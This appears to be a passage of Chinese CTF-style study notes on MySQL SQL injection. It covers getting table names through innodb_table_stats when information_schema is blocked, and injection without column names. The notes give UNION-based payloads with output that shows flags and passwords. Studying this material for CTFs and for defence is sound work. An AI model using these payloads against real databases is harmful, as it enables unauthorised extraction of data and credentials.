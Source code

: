 当information shema被禁止时，

用database()获取当前数据库名；

用innoDB引擎注入获取

获取表名；

用列重复报错获取列名；用无列名注入获取数据；

**（1）Innodb引擎注入**

当mysql版本大于5.6时，数据库`mysql`存在`innodb_index_stats` 和 `innodb_table_stats`表，用于保存数据库最近的变动记录。当information_schema被禁止时，可以用此方式。

```mysql
mysql> select * from users where id='1' union select 1,2,group_concat(table_name) from mysql.innodb_table_stats where database_name=database();
+----+----------+--------------------------+
| Id | username | password                 |
+----+----------+--------------------------+
|  1 | admin    | ctfshow{123333333333333} |
|  1 | 2        | test                     |
+----+----------+--------------------------+
2 rows in set (0.01 sec)
```



```mysql
mysql> select group_concat(table_name) from mysql.innodb_index_stats where database_name=database();
+--------------------------+
| group_concat(table_name) |
+--------------------------+
| test,test,test           |
+--------------------------+
1 row in set (0.01 sec)
```



**（2）**



### 5.8 绕过列名-无列名注入

**前提：已知表名，未知列名。**

11、22、33是给原本的列名分别起的别名，需要用反引号包裹，否则会被视为纯数字；如果起字符型的别名则不需要。

```mysql
mysql> select `33` from (select 11,22,33 union select * from users)AS X;
+-----------------------------------------------+
| 33                                            |
+-----------------------------------------------+
| 33                                            |
| ctfshow{2a0dca32-e5de-4f6c-8a85-2d325d89dbf8} |
| passw@rd                                      |
| passw0rd                                      |
+-----------------------------------------------+

mysql> SELECT column2 FROM (SELECT 11,'column2',33 UNION SELECT * FROM users)x;
+---------+
| column2 |
+---------+
| column2 |
| admin   |
| user1   |
| user2   |
+---------+
```